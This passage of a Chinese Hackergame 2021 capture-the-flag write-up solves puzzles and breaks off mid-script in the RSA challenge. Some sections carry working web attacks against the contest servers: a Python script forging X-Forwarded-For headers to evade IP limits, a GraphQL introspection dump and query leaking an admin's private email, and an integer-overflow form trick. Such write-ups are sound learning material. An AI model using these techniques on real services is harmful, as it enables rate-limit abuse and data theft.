


**WriteUp也发布在了[我的博客](https://www.seaeye.cn/archives/361.html)上,可以访问以获取更好的阅读体验,同时感谢能够指正批评。**

#前言

去年第一次了解到并参加了Hackergame这个比赛,感觉这里的题目都特别的有意思(也很离谱),所以今年满怀期待地参加了比赛。比赛成绩并不令自己满意,经过了一年的时间,自己的技术似乎没有太大的长进,而且这次花了特别长的时间做题,作业没写课也没上几节,时间全砸这上面了也只做了一些简单的题目,有些题目有能力做但是总在关键的一步卡住,比较可惜。不过既然比赛已经结束了,就应该好好总结经验教训,弥补不足。

这是我在本次比赛中的成绩排名及答题情况。


以下是我的题解。

# 1.签到

**分类:Web 分值:50 完成人数:2589**


**[解题过程]**


打开题目链接发现是一个形如日历的页面,第一页的日期是`1970-1-1`,这个特殊的数值让人很容易想到时间戳,同时联想到题目描述中的"`翻到 Hackergame 2021 比赛进行期间的任何一页就能得到 flag`",应该是通过修改时间戳到当前的时间戳(也就是比赛期间了)来获得flag,点击下一页,注意到链接通过GET方法附加`page`变量访问,所以尝试修改page的值为当前时间戳。

通过搜索引擎随意寻找一个可用的在线时间戳工具,读取到当前时间戳,修改题目链接中`page`的值,访问,可以发现页面的日期已经在比赛期间,成功得到flag。


```flag
flag{HappyHacking2021-ca54a45f72}
```
<br>

# 2.进制十六——参上

**分类:General 分值:100 完成人数:1993**


**[解题过程]**


观察题目不难发现右侧的文本是左侧的十六进制的ASCII编码结果,注意到`flag`字样,于是用图片识别工具将范围内的十六进制值提取出来(识别结果需要人工核对一遍)。

```hex
20 61 20 62 79 74 65 2E 20 66 6C 61 67 7B 59 30 55 5F 53 48 30 55 31 44 5F 6B 6E 30 77 5F 48 30 57 5F 74 30 5F 43 30 6E 76 33 72 74 5F 48 45 58 5F 74 6F 5F 54 65 78 54 7D 20 46 6F 72 20 65 78
```


将其复制到WinHex中即可得到flag(直接使用在线的十六进制转文本工具也可)。


```flag
flag{Y0U_SH0U1D_kn0w_H0W_t0_C0nv3rt_HEX_to_TexT}
```
<br>

# 3.去吧！追寻自由的电波

**分类:General 分值:100 完成人数:1014**


**[解题过程]**

[原音频](file/hackergame2021/radio.mp3)

[慢放音频](file/hackergame2021/radio-slow.mp3)

播放音频发现速度太快听不清楚,使用PR或其他软件将音频慢放,播放慢放后的音频发现是几个英文单词发音,猜测是每个单词对应1位字母,且应该是该单词的首字母。结合题目描述的`无线电`关键字样,进行搜索得到转换关系表,最后按照转换关系拼凑字母即可得到flag。


```flag
flag{phoneticab}
```
<br>

# 4.猫咪问答 Pro Max

**分类:General 分值:100 完成人数:566**


**[解题过程]**

经典猫咪问答,逐个击破。

1.通过[Wayback Machine](https://web.archive.org/)搜索`sec.ustc.edu.cn`,得到该域名下页面的早期快照,不难找到[官方文档的链接](https://web.archive.org/web/20181004003308/http://sec.ustc.edu.cn/doku.php/codes),得知该社团章程是在2015年5月4日通过的,那么这一问的答案就是`20150504`。


2.这一问我没有仔细去找资料,但毕竟这么优秀的社团,每年都评为优秀不过分吧,直接盲猜一个`5`(省时间,即使不对后续可以再猜嘛)。

3.通过翻看 [LUS @ USTC](https://lug.ustc.edu.cn/news/) 官网上的News栏目的文章,发现一篇[有用的文章](https://lug.ustc.edu.cn/news/2016/06/new-activity-room-in-west-library/),第一张图片就是我们想要的答案,这一问的答案就是`Development Team of Library`。


4.搜索进入SIGBOVIK官网,查看[在线PDF](http://sigbovik.org/2021/proceedings.pdf)并寻找论文,找到`Newcomb-Benford`关键字,翻阅这篇论文,发现整篇论文中共有14张插图,其中有1张和理论验证无关,故这一问的答案是`13`。


5.谷歌搜索`IETF Protocol Police`,发现这样一篇[文档](https://datatracker.ietf.org/doc/html/rfc8962),浏览后发现了线索,这一问的答案就是`/dev/null`。


接下来我们就可以愉快地提交答案了,成功得到flag。


```flag
flag{8804d9f3_d6ba778ff6}
```
<br>

# 5.卖瓜

**分类:Web 分值:150 完成人数:723**


这题我一开始以为是通过改POST的数据发小数凑成20,结果不是。看到这么多人做出来了,心想应该不难,于是猜测是不是整数溢出,在第二个框输入19个"9",发现存在整数溢出,溢出后就方便我们拼凑出20了。


我的解题步骤是在第二个框输入19个9,造成第一次溢出,再在第一个框输入18个9,提交三次,然后在第二个框又输入19个9,发现又出现了负数,第二次溢出,这时我们计算`446744073709551634÷6`,会发现余4,而6*4,正好可以得到24。于是在第一个框输入`74457345618258605`,得到`-4/20`,最后在第一个框输入`4`,成功凑成20斤,得到flag。


```flag
flag{HUAQIANG!HUAQIANG!_7b1ff80e0b}
```
<br>

# 6.透明的文件

**分类:General 分值:150 完成人数:373**


[附件](file/hackergame2021/transparent.txt)

**[解题过程]**


打开附件发现是一堆看不懂的有规律的字符,复制一小段到谷歌上搜索,搜索到相关内容,发现链接有关键字`VT100`,继续搜索,得知这是一个能在控制台输出彩色内容的修饰码。


大致了解它的语法之后发现`题给文件中的"["前缺失了"\033"`,于是通过脚本进行补全,并按空格符进行分行。为了更方便观察,构造一个由"#"组成的方形画布,之后echo每行指令,拿到linux里运行脚本,得到答案,将其选中方便识别。


```Python
import os
import time

f=open("transparent.txt","r")
lines=f.read().replace("[","\\033[").split(" ")

for i in range(30):
	print('#'*120)

for i in lines:
	os.system(f'echo \"{i}a\"')
```

```flag
flag{abxnniohkalmcowsayfiglet}
```
<br>

# 7.旅行照片

**分类:General 分值:150 完成人数:887**


**[解题过程]**

读题得知原来左上角有个KFC,说实话我没见过蓝色的KFC,应该很稀有,于是搜索"海边 蓝色 肯德基",发现了线索。


上高德地图搜索这家店,各种要素全都对上了,更加坚信这就是想要的答案,得到电话号码为`0335-7168800`。

又在B站搜索"秦皇岛肯德基",发现一个[Vlog视频](https://www.bilibili.com/video/BV19f4y1i7AN),视频里观察到左侧建筑的名称含有"豚馆"二字,猜测是`海豚馆`。

从地图上看,拍摄者的面朝方向应该是`东南`。


观察地面阳光和影子的朝向,结合地理知识分析不难得出拍摄时间应该是在`傍晚`,至于楼层的话,肉眼分析大概是10层左右,在这附近一个个猜,得到答案是`14`。

提交答案,成功得到flag。


```flag
flag{D0n7-5hare-ph0t05-ca5ua11y}
```
<br>

# 8.FLAG 助力大红包

**分类:Web 分值:200 完成人数:568**


**[解题过程]**

读题后分析出这题的解法应该是通过不同的IP点击助力,拉满进度,但被限制了`同一/8网段只能点一次`,那么只能构造出有效IP共256个,即`i.x.x.x(i in range(0,255),x∈[0,255])`。前端IP伪造通过改POST的`ip字段`实现,后端IP伪造通过改headers的`X-Forwarded-For`实现。

逻辑理清了剩下就是写脚本跑脚本,访问速度不能过快,一秒以上的间隔比较稳。运行脚本,成功集满1个flag。


```Python
import requests
import time
import re

url = "http://202.38.93.111:10888/invite/bc463218-671b-4e6b-a34a-2cb2cc20356e"
for i in range(256):
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36",
               "X-Forwarded-For": f"{i}.8.7.6"  # 伪造后端IP
               }
    # 伪造前端IP发包
    r = requests.post(url, data={"ip": f"{i}.8.7.6"}, headers=headers).text.replace("\n", "").replace(" ", "")
    t = re.findall('<divclass="alertalert-.*?row"role="alert">(.*?)</div>', r)[0]  # 随便整的正则表达式
    print(str(i) + "   " + t)
    time.sleep(1.2)  # 避免被禁止访问 要设一个大于1秒的延迟

```

```flag
flag{r3d-enve10p3-a56d3d689f}
```
<br>

# 9.Amnesia

## 轻度失忆

**分类:Binary 分值:150 完成人数:440**


[附件](file/hackergame2021/amnesia_1_checker.zip)

**[解题过程]**

大致读题后发现本质上就是让我们输入一段C的代码,最终让它输出`Hello, world!`,但是`编译后 ELF 文件的 .data 和 .rodata 段会被清零`。也就是说不能直接通过`printf("Hello, world!")`输出,因为字符串常量在编译的时候会被清除。但可以通过ASCII码来变相输出字符,以绕过限制。

```C
#include <stdio.h>
int main(){
    char s[]={72,101,108,108,111,44,32,119,111,114,108,100,33,0};
    puts(s);
    return 0;
}
```

粘贴代码到判题终端,成功得到flag。


```flag
flag{S0_S1mp1e_r1ght_05b5f4409a}
```
<br>

# 10.图之上的信息

**分类:Web 分值:200 完成人数:411**


**[解题过程]**


用guest账户登录后,F12发现请求了`/graphql接口`,搜索`GraphQL注入`,找到一篇[优秀文章](https://blog.csdn.net/wy_97/article/details/110522150),知道了内省查询可以利用,直接拿过来用。先把所有内置信息导出,找到了user的表属于GUser类,类下有一个`privateEmail`属性,模仿notes的查询语句,构造Payload`{user(id:1){privateEmail}}`读取admin的邮箱,成功得到flag。

读到的信息:

```JSON
{
    "data": {
        "__schema": {
            "queryType": {
                "name": "Query"
            },
            "mutationType": null,
            "subscriptionType": null,
            "types": [
                {
                    "kind": "OBJECT",
                    "name": "Query",
                    "description": null,
                    "fields": [
                        {
                            "name": "note",
                            "description": "Get a specific note information",
                            "args": [
                                {
                                    "name": "id",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Int",
                                        "ofType": null
                                    },
                                    "defaultValue": "null"
                                }
                            ],
                            "type": {
                                "kind": "OBJECT",
                                "name": "GNote",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "notes",
                            "description": "Get notes information of a user",
                            "args": [
                                {
                                    "name": "userId",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Int",
                                        "ofType": null
                                    },
                                    "defaultValue": "null"
                                }
                            ],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "OBJECT",
                                    "name": "GNote",
                                    "ofType": null
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "user",
                            "description": "Get a specific user information",
                            "args": [
                                {
                                    "name": "id",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Int",
                                        "ofType": null
                                    },
                                    "defaultValue": "null"
                                }
                            ],
                            "type": {
                                "kind": "OBJECT",
                                "name": "GUser",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "OBJECT",
                    "name": "GNote",
                    "description": null,
                    "fields": [
                        {
                            "name": "id",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "Int",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "contents",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "SCALAR",
                    "name": "Int",
                    "description": "The `Int` scalar type represents non-fractional signed whole numeric values. Int can represent values between -(2^31) and 2^31 - 1.",
                    "fields": null,
                    "inputFields": null,
                    "interfaces": null,
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "SCALAR",
                    "name": "String",
                    "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text.",
                    "fields": null,
                    "inputFields": null,
                    "interfaces": null,
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "OBJECT",
                    "name": "GUser",
                    "description": null,
                    "fields": [
                        {
                            "name": "id",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "Int",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "username",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "privateEmail",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "SCALAR",
                    "name": "Boolean",
                    "description": "The `Boolean` scalar type represents `true` or `false`.",
                    "fields": null,
                    "inputFields": null,
                    "interfaces": null,
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "OBJECT",
                    "name": "__Schema",
                    "description": "A GraphQL Schema defines the capabilities of a GraphQL server. It exposes all available types and directives on the server, as well as the entry points for query, mutation, and subscription operations.",
                    "fields": [
                        {
                            "name": "description",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "types",
                            "description": "A list of all types supported by this server.",
                            "args": [],
                            "type": {
                                "kind": "NON_NULL",
                                "name": null,
                                "ofType": {
                                    "kind": "LIST",
                                    "name": null,
                                    "ofType": {
                                        "kind": "NON_NULL",
                                        "name": null,
                                        "ofType": {
                                            "kind": "OBJECT",
                                            "name": "__Type",
                                            "ofType": null
                                        }
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "queryType",
                            "description": "The type that query operations will be rooted at.",
                            "args": [],
                            "type": {
                                "kind": "NON_NULL",
                                "name": null,
                                "ofType": {
                                    "kind": "OBJECT",
                                    "name": "__Type",
                                    "ofType": null
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "mutationType",
                            "description": "If this server supports mutation, the type that mutation operations will be rooted at.",
                            "args": [],
                            "type": {
                                "kind": "OBJECT",
                                "name": "__Type",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "subscriptionType",
                            "description": "If this server support subscription, the type that subscription operations will be rooted at.",
                            "args": [],
                            "type": {
                                "kind": "OBJECT",
                                "name": "__Type",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "directives",
                            "description": "A list of all directives supported by this server.",
                            "args": [],
                            "type": {
                                "kind": "NON_NULL",
                                "name": null,
                                "ofType": {
                                    "kind": "LIST",
                                    "name": null,
                                    "ofType": {
                                        "kind": "NON_NULL",
                                        "name": null,
                                        "ofType": {
                                            "kind": "OBJECT",
                                            "name": "__Directive",
                                            "ofType": null
                                        }
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "OBJECT",
                    "name": "__Type",
                    "description": "The fundamental unit of any GraphQL Schema is the type. There are many kinds of types in GraphQL as represented by the `__TypeKind` enum.\n\nDepending on the kind of a type, certain fields describe information about that type. Scalar types provide no information beyond a name, description and optional `specifiedByUrl`, while Enum types provide their values. Object and Interface types provide the fields they describe. Abstract types, Union and Interface, provide the Object types possible at runtime. List and NonNull types compose other types.",
                    "fields": [
                        {
                            "name": "kind",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "NON_NULL",
                                "name": null,
                                "ofType": {
                                    "kind": "ENUM",
                                    "name": "__TypeKind",
                                    "ofType": null
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "name",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "description",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "specifiedByUrl",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "SCALAR",
                                "name": "String",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "fields",
                            "description": null,
                            "args": [
                                {
                                    "name": "includeDeprecated",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Boolean",
                                        "ofType": null
                                    },
                                    "defaultValue": "false"
                                }
                            ],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "NON_NULL",
                                    "name": null,
                                    "ofType": {
                                        "kind": "OBJECT",
                                        "name": "__Field",
                                        "ofType": null
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "interfaces",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "NON_NULL",
                                    "name": null,
                                    "ofType": {
                                        "kind": "OBJECT",
                                        "name": "__Type",
                                        "ofType": null
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "possibleTypes",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "NON_NULL",
                                    "name": null,
                                    "ofType": {
                                        "kind": "OBJECT",
                                        "name": "__Type",
                                        "ofType": null
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "enumValues",
                            "description": null,
                            "args": [
                                {
                                    "name": "includeDeprecated",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Boolean",
                                        "ofType": null
                                    },
                                    "defaultValue": "false"
                                }
                            ],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "NON_NULL",
                                    "name": null,
                                    "ofType": {
                                        "kind": "OBJECT",
                                        "name": "__EnumValue",
                                        "ofType": null
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "inputFields",
                            "description": null,
                            "args": [
                                {
                                    "name": "includeDeprecated",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Boolean",
                                        "ofType": null
                                    },
                                    "defaultValue": "false"
                                }
                            ],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "NON_NULL",
                                    "name": null,
                                    "ofType": {
                                        "kind": "OBJECT",
                                        "name": "__InputValue",
                                        "ofType": null
                                    }
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "ofType",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "OBJECT",
                                "name": "__Type",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
                {
                    "kind": "ENUM",
                    "name": "__TypeKind",
                    "description": "An enum describing what kind of type a given `__Type` is.",
                    "fields": null,
                    "inputFields": null,
                    "interfaces": null,
                    "enumValues": [
                        {
                            "name": "SCALAR",
                            "description": "Indicates this type is a scalar.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "OBJECT",
                            "description": "Indicates this type is an object. `fields` and `interfaces` are valid fields.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "INTERFACE",
                            "description": "Indicates this type is an interface. `fields`, `interfaces`, and `possibleTypes` are valid fields.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "UNION",
                            "description": "Indicates this type is a union. `possibleTypes` is a valid field.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "ENUM",
                            "description": "Indicates this type is an enum. `enumValues` is a valid field.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "INPUT_OBJECT",
                            "description": "Indicates this type is an input object. `inputFields` is a valid field.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "LIST",
                            "description": "Indicates this type is a list. `ofType` is a valid field.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "NON_NULL",
                            "description": "Indicates this type is a non-null. `ofType` is a valid field.",
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "possibleTypes": null
                },
                {
                    "kind": "OBJECT",
                    "name": "__Field",
                    "description": "Object and Interface types are described by a list of Fields, each of which has a name, potentially a list of arguments, and a return type.",
                    "fields": [
                        {
                            "name": "name",
                            "description": null,
                            "args": [],
                            "type": {
                                "kind": "NON_NULL",
                                "name": null,
                                "ofType": {
                                    "kind": "SCALAR",
                                    "name": "String",
                                    "ofType": null
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
```


<br>

```Python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36',
    'Cookie': 'session=<Your Session>'
}

url = "http://202.38.93.111:15001/graphql"

#print(requests.post(url,headers=headers,data={"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  "}).text)
print(requests.post(url, headers=headers, data={"query": "{ user(id: 1) { privateEmail }}"}).text)
```


```flag
flag{dont_let_graphql_l3ak_data_9de6dd26ca@hackergame.ustc}
```
<br>

# 11.Easy RSA

**分类:Math 分值:200 完成人数:231**


[附件](file/hackergame2021/Easy_RSA.py)

```Python
import math
import sympy
from Crypto.Util.number import *

e = 65537


def get_p():
    x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
    y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439
    value_p = sympy.nextprime((math.factorial(y)) % x)  # Hint：这里直接计算会溢出，请你仔细观察 x 和 y 的特征
    return value_p


def get_q():
    value = [getPrime(256)]
    for i in range(1, 10):
        value.append(sympy.nextprime(value[i - 1]))
    print("value[-1] = ", value[-1])
    # value[-1] = 80096058210213458444437404275177554701604739094679033012396452382975889905967
    n = 1
    for i in range(10):
        n = n * value[i]
    q = getPrime(512)
    value_q = pow(q, e, n)
    print("value_q = ", value_q)
    # value_q = 5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819
    return sympy.nextprime(q)

# this destroyes the rsa cryptosystem
p = get_p()
q = get_q()

m = int.from_bytes(open("flag.txt", "rb").read(), "big")
c = pow(m, e, p * q)
print("c = ", c)
# c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478

```

**[解题过程]**

通读代码后得知`p`和`q`的生成方法,那我们要做的就是通过给出的信息逆向求出正确的`p`和`q`。


先看p的生成,x和y这两个数相差99012,`value_p`是"y的阶乘模x后的下一个素数",但由于x和y都是较长整数,直接计算不可行,于是去寻找大整数阶乘取模的数学公式,发现了强大的[威尔逊定理](https://baike.baidu.com/item/%E5%A8%81%E5%B0%94%E9%80%8A%E5%AE%9A%E7%90%86),通过它我们可以获得求p的方法。


```Python
import math
import sympy
from Crypto.Util.number import *
import gmpy2

e = 65537


def get_p():
    x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
    y = x-99012
    s=1
    for i in range(2,99012):
        s*=gmpy2.invert(x-i,x)
    s=s%x
    value_p = sympy.nextprime(s)
    return value_p

print(get_p())
```

再看q的生成,先取了1个随机的256位的素数,然后取其后的9个素数存进列表,n是由这10个素数相乘得来的。q是随机生成的一个512位的素数,之后经过幂e模n的操作得到`value_q`。我们要做的是通过`value[-1]`求出`value`,进而求出n,再求`(p0-1)*(p1-1)*...*(p9-1)`,之后求出这部分RSA的私钥d,最后进行`value_q幂d模n`的操作得出q。注意返回的值是q的下一个素数。

```Python
from Crypto.Util.number import *
import sympy
import gmpy2
x=80096058210213458444437404275177554701604739094679033012396452382975889905967
